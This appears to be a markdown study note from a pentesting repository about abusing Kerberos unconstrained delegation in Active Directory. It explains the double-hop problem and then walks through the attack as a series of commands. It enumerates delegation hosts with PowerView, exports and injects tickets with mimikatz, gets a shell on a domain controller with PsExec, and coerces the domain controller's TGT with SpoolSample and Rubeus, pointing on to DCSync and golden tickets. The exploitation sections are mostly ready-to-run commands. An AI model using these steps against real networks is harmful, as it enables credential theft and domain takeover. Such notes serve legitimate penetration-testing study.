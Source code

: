 ## The Theory
A web application existing inside the network only available for employees may use kerberos authentication.
For the web application to access an internal backend service such as a database, it will not have enough permissions just with the user's Ticket Granting Service.

To solve this double-hop issue, Microsoft introduced 3 types of kerberos delegation:
1. Unconstrained delegation
2. Constrained delegation
3. Resource Based Constrained Delegation

In case of unconstrained delegation, instead of a normal TGS, a _Forwardable TGT_ is issued.
The KDC returns a TGT with the _forward flag_ set along with a session key for that TGT and a regular TGS.
The user's client embeds the TGT and the session key into the TGS and sends it to the service, which can now impersonate the user to the backend service.

In case  of a malicious intent, since the frontend service receives a forwardable TGT, it can perform authentication on behalf of the user to any service (because of unconstrained delegation), not just the intended backend service.
This means, if a high privilege account's TGT is captured(such as an admin), we can authenticate it to any service, as that high privileged user.

## Exploitation
We start by enumeration of computers with unconstrained delegation with Powerview.
We can use the following command:
```Powershell
Get-DomainComputer -Unconstrained
```
Any account with the _TRUSTED_FOR_DELEGATION_  property set, has unconstrained delegation.
It's numerical value is 524288.

![](../../../Screenshots/ud-e.png)

To freely user the tickets recieved from the users, we either need be logged in as the service account hosting the service, or the administrator.

The tickets can be listed and extracted and used using mimikatz with the following commands:
```mimikatz
privilege::debug
sekurlsa::tickets
sekurlsa::tickets /export
kerberos::ptt [0;9eaea]-2-0-60a10000-admin@krbtgt-PROD.CORP1.COM.kirbi
```

![](../../../Screenshots/mte-ud.png)

Finally, we can use PsExec.exe to get command execution:
```cmd
.\PsExec.exe \\cdc01 cmd
```

## Exploiting Printer Bug
The RPC interface we leveraged locally is indeed also accessible over the network through TCP port 445 if the host firewall allows it.
The MS-RPRN documentation specifies that the RPC endpoint for the print spooler is \pipe\spoolss and that no authentication is required.

We can run the following command:
```cmd
dir \\cdc01\pipe\spoolss
```
The output reveals that the print spooler service is running and accessible.

When the "target" spooler accesses the named pipe on the "attacking" machine, it will present a forwardable TGT along with the TGS if the "attacking" machine is configured with unconstrained delegation.

We'll use Rubeus from an administrative command prompt in monitor mode, specify a refresh interval of 5 seconds with the /interval option, and filter on the domain controller machine account with the /filteruser option to extract the ticket:
```cmd
Rubeus.exe monitor /interval:5 /filteruser:CDC01$
```

With Rubeus monitoring for TGTs originating from the domain controller machine account, we'll open a second command prompt and trigger the print spooler change notification with SpoolSample.exe
```cmd
SpoolSample.exe CDC01 APPSRV01
```

![](../../../Screenshots/ctgt-as1.png)

We can now inject the ticket using Rubeus as well with:
```powershell
Rubeus.exe ptt /ticket:doIFIjCCBR6gAwIBBaEDAgEWo...
```

With the tickets injected, we can now access services as the victim machine's machine account(which in this case holds replication rights and thus can perform dcsync attack to extract krbtgt hash and further perform golden ticket attacks)

